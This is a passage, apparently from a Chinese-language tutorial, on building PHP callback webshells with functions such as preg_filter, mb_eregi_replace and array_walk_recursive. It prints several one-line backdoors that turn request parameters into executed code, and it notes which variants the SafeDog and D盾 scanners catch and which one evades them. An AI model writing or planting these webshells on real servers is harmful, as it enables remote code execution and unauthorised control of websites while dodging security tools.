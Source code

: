 preg_filter() 等价于 preg_replace() ，但它仅仅返回与目标匹配的结果。

```php
<?php 
    preg_filter('|\d|e', $_REQUEST['x'], '2');
?>
```

只是比较可惜，都无法过狗和D盾了。不过问题不大，感兴趣小伙伴可以去查阅 PHP 官方文档，还是可以找到类似函数的，可以过狗和D盾

```php
<?php 
    mb_eregi_replace('\d', $_REQUEST['x'], '1', 'e');
?>
```



#### array_walk_recursive()

```php
array_walk_recursive(array,myfunction,parameter...)
```

array_walk_recursive() 函数对数组中的每个元素应用用户自定义函数。该函数与 array_walk()函数的不同在于可以操作更深的数组（一个数组中包含另一个数组）。

| 参数         | 描述                                                         |
| :----------- | :----------------------------------------------------------- |
| *array*      | 必需。规定数组。                                             |
| *myfunction* | 必需。用户自定义函数的名称。                                 |
| *userdata*,… | 可选。规定用户自定义函数的参数。您能够向此函数传递任意多参数。 |

```php
<?php
    $e = $_REQUEST['e'];
    $arr = array($_POST['pass'] => '|.*|e',);
    array_walk_recursive($arr, $e, '');
?>
```

| 安全狗                       | D盾             |
| :--------------------------- | :-------------- |
| 1 个安全风险 php后门回调木马 | 级别 5 已知后门 |



#### array_reduce()

```php
array_reduce(array,myfunction,initial)
```

array_reduce() 函数向用户自定义函数发送数组中的值，并返回一个字符串。

| 参数         | 描述                           |
| :----------- | :----------------------------- |
| *array*      | 必需。规定数组。               |
| *myfunction* | 必需。规定函数的名称。         |
| *initial*    | 可选。规定发送到函数的初始值。 |
